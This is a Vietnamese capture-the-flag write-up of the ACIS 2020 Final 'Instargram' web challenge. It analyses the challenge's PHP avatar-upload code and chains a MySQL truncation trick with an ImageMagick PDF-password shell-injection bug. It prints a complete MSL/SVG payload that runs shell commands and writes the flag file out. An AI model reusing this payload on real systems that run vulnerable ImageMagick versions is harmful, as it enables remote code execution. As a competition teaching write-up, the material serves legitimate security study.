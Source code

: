 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "[ACIS-2020-Final] Web02: Instargram"
subtitle: ""
summary: ""
authors: [DoubleVKay]
tags: []
categories: [writeups,web,ctf,php,imagemagick]
---
```


# [ACIS-2020-Final] Sinh viên với An Toàn Thông Tin ASEAN 2020 Final Web Writeup

# Instargram

## Description

- Source: [Instargram](src)
- ImageMagick version: `7.0.10-37`
- Hints:
  1.  `Magic!!!`
  2.  `ducnt / @bcd1234`

![img1](img/img1.png)

## Summary

Website cho phép đăng ký, đăng nhập, thay đổi avatar. Khi thay đổi avatar sẽ gọi đến lệnh `convert` từ system (**Imagemagick**) để chuyển đổi ảnh. Kết hợp lỗi [ImageMagick - Shell injection via PDF password](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) và **SQL Truncation Attack** khai thác thực thi mã từ xa (**RCE**).

## Analysis

### Upload

Những file upload lên server phải thỏa mãn những yêu cầu, đặc điểm sau:
1. Size <= `500000`
2. Thư mục lưu trữ của mỗi user là bí mật:
  ```php
  function gen_secret_path($username) {
      $secret_path = "images/avatars/".md5(SALT.$username)."/";
      return $secret_path;
  }
  $secret_path = gen_secret_path($username);
  ...
  $target_file = $secret_path . $avatar;
  ```
3. File type phải là: `JPG, JPEG, PNG, SVG && GIF`

### Convert

Khi upload avatar, server sẽ tạo 1 bản copy của file nhằm chuyển đổi sau đó. 
  ```php
    if( $count2 === 1 && $row['username'] === $username) 
    {
        $_prepare_for_convert = $secret_path.$row2['for_convert'];
        copy($target_file, $_prepare_for_convert);
    }
  ```

Tên của file convert này được thêm suffix: `-InStarGram-HackEmAll2020.png`
```php
function watermark($string) {
    return $string."-InStarGram-HackEmAll2020";
}
$_for_convert = trim($filename,".".$extension);
$_for_convert =  $_for_convert.".".$extension.watermark("").".png";
```
- Ví dụ: `shell.php.jpg` -> `shell.php.jpg-InStarGram-HackEmAll2020.png`

Khi đã upload lên server, server sẽ sử dụng **Imagemagick** để chuyển đổi ảnh
```php
  $_orignal_image = $row['for_convert'];
  $_orignal_image = $secret_path.$_orignal_image;
  $_orignal_image = superwaf($_orignal_image);
  $_convert_image = superwaf($_convert_image);
  $_beautify_image = "convert -level 0%,100%,2.0 ".$_orignal_image." ".$_convert_image;
  system($_beautify_image);
```
- *`superwaf()` giúp bảo vệ **Command Injection***
  ```php
  function superwaf($data) {
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data);
    $data = escapeshellcmd($data);
    return $data;
  }
  ```

## Exploit

### ImageMagick Bug

- ImageMagick change log:
![img2](img/img2.png)
- Tìm ...  
![img3](img/img3.png)
- Và [đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) là bài phân tích chi tiết lỗi, cũng như cách exploit. Nó được đăng vào **November 21, 2020**. Vậy là đề được lấy cảm hứng từ 1 bug mới được public cách ngày thi 1 tuần ...

**Tóm lược**, ImageMagick cho phép sử dụng mật khẩu khi chuyển đổi PDF thông qua option `-authenticate`. Option này được dùng trong việc gọi một command khác, và nó không được làm sạch an toàn. Đồng nghĩa, việc kiểm soát thành công `-authenticate` sẽ dẫn đến **RCE**. Tuy nhiên điều này không phải lúc nào cũng khả thi (như trong bài này). May mắn thay, ImageMagick còn hỗ trợ **ImageMagick Scripting Language (MSL)** thông qua 1 file input **svg**, có thể truyền thẳng option bên trong nội dung file. Chi tiết hơn có thể xem [tại đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

**Quay lại với đề bài**, như vậy, nếu upload 1 file **SVG**, khi server gọi `convert evil.svg whatever.jpg`, thì `$(command)` sẽ được thực thi.

```html
<image authenticate='ff" `echo $(command)`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Tuy nhiên, `for_convert` được thêm suffix `-InStarGram-HackEmAll2020.png` nên không thể upload file **svg** được?

### SQLi Truncation Attack

Độ dài trường **for_convert** là **100**, vì vậy có thể tận dụng để truncate phần suffix của tên file.

```
CREATE TABLE `converts` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` varchar(50) DEFAULT NULL,
  `for_convert` varchar(100) DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
```

Vậy tên file cần có dạng:
```php
$filename = str_repeat("a",96).".svg"
```

Lúc này, nếu tiến hành chạy reverse shell hay outbound thì sẽ nhận ra server đã chặn. Vậy cần phải extract output command ra đâu đó, ra file? Nhưng chỉ có thư mục upload là có quyền ghi và như đã trình bày, đường dẫn thư mục upload của mỗi user là bí mật?

*Đây cũng là lý do không dùng cách upload file php (dùng truncation attack) để lên shell được*

### Có điều gì đó đã bị bỏ qua ...?

Quay lại source code được cung cấp, tại `images/avatars/`:
![img4](img/img4.png)

**978581028bb6f432c5a3a7694e8dad32**?. Một gợi ý của đề để lại, thư mục upload của user **ducnt** với mode `0777`. Như vậy, đã tìm được nơi ghi output của command.

## Final Payload

- Filename: **aa...aa.svg** (length == 100)
- Payload
```html
<image authenticate='ff" `echo $(cat /flag.txt)> ./images/avatars/978581028bb6f432c5a3a7694e8dad32/doublevkay.txt`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:./images/avatars/978581028bb6f432c5a3a7694e8dad32/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.svg" height="100" width="100"/>
  </svg>
</image>
```

Truy cập lại `/account.php` để kích hoạt `convert` và get flag.

![flag](img/flag.png)
![a](img/img5.jpg)

**Flag:**

```ASCIS{amayzing-goodjob-em:https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html-(ft)-mysql-truncation}```

## Không liên quan

Thừa nhận hay không thì mình vẫn là một mắt xích yếu, sr my team!.

Và, yoh, hơi sến xíu nhưng thực sự cảm ơn những người anh đã giúp đỡ em trong chặng đường học cyber sec này, rất ý nghĩa! (và chắc còn dài =)))

Btw, chúc mừng team **HCMUS.Twice** - một chức vô địch xứng đáng. Cuộc thi là một trãi nghiệm rất thú vị, thanks all và ... hẹn gặp lại.
